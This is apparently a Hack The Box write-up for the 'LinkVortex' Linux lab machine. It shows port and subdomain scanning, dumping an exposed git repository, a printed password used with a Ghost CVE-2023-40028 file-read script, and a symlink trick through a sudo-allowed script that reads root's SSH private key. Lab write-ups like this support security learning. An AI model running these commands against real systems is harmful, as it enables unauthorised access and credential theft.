 ![LinkVortexBusqueda](https://labs.hackthebox.com/storage/avatars/97f12db8fafed028448e29e30be7efac.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [0xyassine](https://app.hackthebox.com/users/143843)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---










- I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
	
	```python
	nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.47 -oG scan
	nmap -p22,80 -sCV -Pn 10.10.11.47 -oN ports
	```

	![image](https://github.com/user-attachments/assets/6b9a5ab6-bc5a-4ac4-ab30-136388ba3e47)

- I go to the site and see that a de-tialized version of Ghost is running. I find that it has a vulnerability, [CVE-2023-40028](https://github.com/TryGhost/Ghost/security/advisories/GHSA-9c9v-w225-v5rg). I need to find a valid credential to be able to abuse this vulnerability.
	
	![image](https://github.com/user-attachments/assets/ca1b0990-862f-4762-8508-55ff86aaa5c3)

- I do a search for subdomains and I find one.

	```python
	wfuzz -c -t 100  --hh=230 -w  /usr/share/amass/wordlists/subdomains-top1mil-110000.txt -H "Host: FUZZ.linkvortex.htb" http://linkvortex.htb
	```

	![image](https://github.com/user-attachments/assets/c20f6bcb-f380-4028-9676-de65dc0a490d)

  ![image](https://github.com/user-attachments/assets/ace1c268-9d0b-4fd7-821d-7721886df1fd)

- When listing the found subdomain I find a git repository. I download it with [git-dumper](https://github.com/arthaud/git-dumper)

	```python
	git-dumper "http://dev.linkvortex.htb/.git"  /home/rufo/linkVortex/content/example 
	```

- I search in the repository files and find some passwords. I try with the passwords I found and the vulnerability I found before and I manage to find some valid credentials.
	
	```python
	./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
	```

- I modify the script to point to the endpoint and I manage to read internal files of the machine. LFI

	![image](https://github.com/user-attachments/assets/3a94aebf-ce76-4653-b658-7f5317d1379d)

	![image](https://github.com/user-attachments/assets/5079c283-ce1c-4373-b80e-618790f7f33e)

- I list the repository files and manage to find some credentials in the production environment configuration file

	![image](https://github.com/user-attachments/assets/96b51d9a-cfa4-46b3-9a62-2b46cb9948a2)

- Thanks to these credentials I am able to log in via ssh and read the first flag

  	![image](https://github.com/user-attachments/assets/d966b202-6bdf-4257-a4b8-f0b5f007d612)

- Listing the system files, I see that I can execute as root the file clean_symlink.sh and passing any file as argument.
- I create a couple of symbolic links to be able to read the file with the ssh key of the root user.

	![image](https://github.com/user-attachments/assets/60f2cdd4-b05b-4c56-871f-883bbc70ca4e)

	```python
	ln -s /root/.ssh/id_rsa link1.txt
	ln -s /tmp/a/link1.txt duo.png
	sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /tmp/a/duo.png
	```

	![image](https://github.com/user-attachments/assets/809e4ed4-9443-4c30-8784-2589ab5f2fd3)

- With this key I connect via ssh as root and manage to read the second flag

	![image](https://github.com/user-attachments/assets/546c5283-90cc-461d-94fb-8248f0630f3b)
